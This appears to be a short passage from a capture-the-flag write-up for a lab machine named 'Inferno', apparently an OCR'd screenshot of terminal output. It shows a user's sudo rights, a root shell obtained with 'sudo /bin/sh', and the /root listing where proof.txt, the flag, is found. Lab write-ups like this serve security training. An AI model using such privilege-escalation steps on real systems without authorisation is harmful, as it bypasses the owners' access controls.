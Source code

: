 ```
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
    (ALL : ALL) ALL
$ sudo /bin/sh
[sudo] password for dante:
# whoami
root
# cd /root
# ls -la
total 32
drwx------  5 root root 4096 Jan 11 15:45 .
drwxr-xr-x 24 root root 4096 Jan 11 14:57 ..
lrwxrwxrwx  1 root root    9 Jan 11 15:22 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-x---  3 root root 4096 Jan 11 15:45 .config
drwxr-xr-x  3 root root 4096 Jan 11 15:30 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   79 Jan 11 15:45 proof.txt
drwx------  2 root root 4096 Jan 11 15:19 .ssh
#
```
We then find the root flag proof.txt in /root

